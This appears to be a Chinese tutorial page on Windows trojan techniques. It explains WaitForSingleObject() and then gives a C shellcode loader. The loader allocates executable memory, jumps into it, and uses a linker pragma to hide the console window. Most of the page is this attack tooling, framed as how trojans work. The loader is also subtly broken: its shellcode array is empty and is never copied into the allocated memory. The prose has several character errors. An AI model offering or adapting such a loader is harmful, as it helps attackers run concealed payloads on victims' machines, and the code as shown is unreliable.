 #### WaitForSingleObject()函数

`WaitForSingleObject()`函数用于检测hHandle时间的信号状态，在某一线程种调用该函数，线程暂时挂起，如果在观其的DwMillisecond毫秒内，线程所等待的对象变为有信号状态，则函数立即返回；如果时间已经到了DwMilliseconds毫秒，但是hHandle所指向的对象还没有变成有信号状态，函数照样返回。

```
DWORD WaitForSingleObject(
    HANDLE hHandle,
    DWORD DwMilliseconds
);
/*
参数:
    hHandle 指定对象或时间的语柄
    dwMilliseconds 等待时间，以毫秒为单位，当超过等待时间时，此函数返回。如果参数设置为0，则该函数立即返回；如果设置为INFINITE，则函数一直到有信号才返回
*/
```

#### shellcode加载器原理图：

木马在工作时，一般为如下流程

![image.png](https://cdn.nlark.com/yuque/0/2021/png/12423555/1612018895688-d37a25cb-f76d-4223-8588-98e2f7195547.png)

#### C代码shellcode加载器

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") //防止运行时打开黑窗口
int main(){
    unsigned char shellcode[] = ""; //这里定义无符号的字符数组用来存储16进制的shellcode
    LPVOID p = VirtualAlloc(0,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE_READWRITE);
    /*
        LPVOID p 定义一个空指针,类似于void *
        利用VirtualAlloc()分配了一个开始地址随机的大小为sizeof(shellcode)的内存地址
        MEM_COMMIT 为指定地址提交物理内存
        PAGE_EXECUTE_READWRITE 该内存区域可以执行代码,应用程序可以读写该区域
    */
    if(p != NULL){//判断分配的内存是否为空
        ((void(*)())p)();
        /*
            void(*) 定义一个空指针
            void(*)() 定义一个空指针函数
            (void(*)())p 将空指针p强制类型转换为空指针函数
            ((void(*)())p)() 调用该函数
        */
    }
    return 0;
}
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/12423555/1612005696248-d66ec6c7-b27d-43d1-bb61-0599bb582796.png)
